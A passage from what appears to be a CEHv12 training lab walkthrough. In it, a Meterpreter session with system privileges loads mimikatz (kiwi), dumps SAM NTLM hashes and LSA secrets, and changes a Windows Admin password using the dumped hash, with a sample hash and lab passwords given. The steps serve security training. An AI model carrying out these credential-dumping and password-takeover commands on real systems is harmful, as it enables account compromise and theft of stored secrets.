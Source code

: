 36. Now type **getuid** and press **Enter** , The meterpreter session is now running with system privileges.
37. Type **load kiwi** in the console and press **Enter** to load mimikatz.

### 


38. Type **help kiwi** and press **Enter** , to view all the kiwi commands.
39. Now we will use some of these commands to load hashes.
40. Type **lsa_dump_sam** and press **Enter** to load NTLM Hash of all users.

### 


41. To view the LSA Secrets Login hashes type **lsa_dump_secrets** and press **Enter**.

### 


```
Note: LSA secrets are used to manage a system's local security policy, and contain sesnsitive data such as User passwords, IE
passwords, service account passwords, SQL passwords etc.
```
42. Now we will change the password of **Admin** using the **password_change** module.
43. In the console, type **password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password** (here, the
    NTLM hash of **Admin** is **92937945b518814341de3f726500d4ff** ).

### 


44. We can observe that the password has been changed successfully.
45. Check the new hash value by typing **lsa_dump_sam** and press **Enter** to load NTLM Hashes of all users.

### 


46. We can observe that the password of **Admin** is changed successfully and the new NTLM hash is displayed.
47. Now, check if the login password has changed for the target system (here, **Windows 11** ).
48. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine and lock the machine.

```
Note: If you are already logged in with Admin account sign out and sign-in again.
```
49. Click **Ctrl+Alt+Del** , by default, **Admin** user profile is selected, type **Pa$$w0rd** in the Password field and press **Enter** to login.

### 


50. You can see that if we try to login with the old password ( **Pa$$word** ) we are getting error **The password is incorrect. Try again**.
51. Click **OK** , and login with **password** as a password which we have changed using mimikatz.
